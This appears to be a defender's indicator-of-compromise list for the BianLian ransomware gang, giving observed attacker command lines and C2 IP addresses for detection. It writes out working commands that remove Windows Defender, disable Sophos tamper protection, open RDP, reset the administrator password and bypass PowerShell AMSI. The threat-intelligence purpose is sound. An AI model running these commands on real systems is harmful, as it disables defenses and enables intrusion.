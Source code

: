 # \[Bian Lian IOCs\]
[Redacted blog](https://redacted.com/blog/bianlian-ransomware-gang-gives-it-a-go/?utm_source=Internal%20Referrals&utm_campaign=BianLian)
[KQL Queries](https://gist.github.com/jllangley/599318d80ac6cef69a8607881a5a7778)
### svchost spawned from parent process that is not services.exe
### svchost spawned from unusual path

### Netsh usage

```
"C:\Windows\system32\netsh.exe" advfirewall firewall set rule "group=remote desktop" new enable=Yes
```


```
"C:\Windows\system32\netsh.exe" advfirewall firewall add rule "name=allow RemoteDesktop" dir=in * protocol=TCP localport=3389 action=allow
```

### Disabling Defender

```
"C:\Windows\system32\Dism.exe" /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart
```

### Adding local user account 

```
"C:\Windows\system32\net.exe" localgroup "Remote Desktop Users" <similar name to existing admin/add
```

```
"C:\Windows\system32\net.exe" user <legitimate admin account3gDZNxtsQ9G029k7D6Ljxe /domain
```

### Enabling Remote Desktop Connection

```
"C:\Windows\system32\netsh.exe" advfirewall firewall set rule "group=remote desktop" new enable=Yes
```

```
"C:\Windows\system32\netsh.exe" advfirewall firewall add rule "name=allow RemoteDesktop" dir=in * protocol=TCP localport=3389 action=allow
```

```
"C:\Windows\system32\reg.exe" add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /* v fAllowToGetHelp /t REG_DWORD /d 1 /f
```

```
"C:\Windows\system32\reg.exe" add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal * Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

### Disabling Sophos
```
"C:\Windows\system32\reg.exe" ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sophos Endpoint * Defense\TamperProtection\Config" /t REG_DWORD /v SAVEnabled /d 0 /f
```

```
"C:\Windows\system32\reg.exe" ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sophos Endpoint * Defense\TamperProtection\Config" /t REG_DWORD /v SEDEnabled /d 0 /f
```

```
"C:\Windows\system32\reg.exe" ADD * HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Sophos\SAVService\TamperProtection /t REG_DWORD /v Enabled /d 0 /* f
```

### Enabling TightVNC in Safe Mode
```
"C:\Windows\system32\reg.exe" copy hklm\system\CurrentControlSet\services\tvnserver * hklm\system\CurrentControlSet\control\safeboot\network\tvnserver /s /f
```

```
\cmd.exe /Q /c net user "Administrator" /active:yes 1\\127.0.0.1\C$\Windows\Temp\abjAlC 2>&1
```

### Password Change to the local administrator account, output to file
```
cmd.exe /Q /c net user "Administrator" ChangeMe2morrow! 1\\127.0.0.1\C$\Windows\Temp\OxNEcz 2>&1
```

### Running the quser command and saving output to file
```
cmd.exe /Q /c quser 1\\127.0.0.1\C$\Windows\Temp\VXPrvY 2>&1
```

### Ping only once 
```
"C:\Windows\system32\PING.EXE" -4 -n 1 *
```

### Powershell AMSI Bypass [more info](https://blog.xpnsec.com/exploring-powershell-amsi-and-logging-evasion/)
```
[Ref].Assembly.GetType(‘System.Management.Automation.AmsiUtils’).GetField(‘amsiInitFailed’,’NonPublic,* Static’).SetValue($null,$true)
```

### C2 IP Addresses 
#####Current
```json
("104.225.129.86","104.238.223.10","104.238.223.3","109.248.6.207","13.49.57.110","144.208.127.119","146.0.79.9","157.245.80.66","16.162.137.220","165.22.87.199","172.93.96.61","172.93.96.62","18.130.242.71","185.108.129.242","185.225.69.173","185.56.80.28","185.62.58.151","185.69.53.38","192.145.38.242","192.161.48.43","192.169.6.232","37.235.54.81","45.9.150.132","5.2.79.138","51.68.190.20","54.173.59.51","62.84.112.68","64.52.80.120","66.135.0.42","83.136.180.12","85.13.117.213","85.13.117.218","91.199.209.20","95.179.137.20")
```

#####Historical IPs
```json
("104.207.155.133","104.238.61.153","146.70.44.248","155.94.160.241","167.88.15.98","172.96.137.107","188.166.81.141","194.26.29.131","194.5.212.205","194.58.119.159","198.252.108.34","202.66.72.7","208.123.119.145","209.141.54.205","23.227.198.243","23.94.56.154","43.155.116.250","45.144.30.139","45.92.156.105","5.188.6.118","5.230.67.2","85.13.116.194","85.13.117.219","89.22.224.3")
```

